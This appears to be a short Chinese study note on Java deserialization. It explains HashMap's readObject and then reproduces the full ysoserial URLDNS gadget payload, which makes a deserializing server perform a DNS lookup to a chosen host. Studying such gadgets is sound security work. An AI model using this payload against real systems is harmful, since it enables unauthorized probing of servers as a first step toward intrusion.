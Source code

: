 java里的map，hashmap，hashtable符合入口类

继承序列化是为了传输，参数泛化是他本身就是一个键值对

![image.png](https://img12.360buyimg.com/ddimg/jfs/t1/192402/19/40142/44345/6524a765Fbf8e62d7/e386105f55786811.jpg)

他这里重写readobject是因为，在hashmap中，由于entry的存放位置是根据key的hash值来计算的，然后存放在数组中，对于同一个key在不同的jvm中计算得到的hash是可能不同的

![image.png](https://img11.360buyimg.com/ddimg/jfs/t1/181640/4/39905/59545/6524a78aF366f3fca/e7ab7ac84689b709.jpg)

![image.png](https://img11.360buyimg.com/ddimg/jfs/t1/165895/11/41375/88332/6523a16cFb87b59a8/d51625240dc52b46.jpg)

~~~java
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
~~~
